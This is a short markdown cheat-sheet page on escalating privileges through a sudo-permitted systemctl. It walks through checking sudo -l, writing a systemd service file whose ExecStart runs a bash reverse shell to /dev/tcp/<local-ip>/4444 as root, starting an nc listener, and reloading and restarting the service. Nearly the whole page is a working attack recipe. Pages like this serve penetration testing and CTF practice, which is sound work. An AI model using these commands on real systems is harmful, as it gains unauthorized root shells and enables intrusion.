 ```yaml
---
title: Sudo Systemctl Privilege Escalation
description: sudo systemctl is vulnerable to privilege escalation by modifying the configuration file.
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL) NOPASSWD: systemctl
```

If we can run **"systemctl"** command as root, and we can edit the config file, then we might be a root user.

<br />

## Exploitation

### 1. Update the Config File

We need to insert the payload for reverse shell to get a root shell into the /etc/systemd/system/example.service.

```sh
[Unit]
This is an example service.

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Replace **“\<local-ip\>”** with your local ip address.

### 2. Start Listener in Local Machine

Then start listener for getting a root shell.

```sh
nc -lvnp 4444
```

### 3. Restart the Service

Reload the daemon and restart.

```sh
sudo systemctl daemon-reload
sudo systemctl restart example.service
```

Now we should get a shell in local machine.
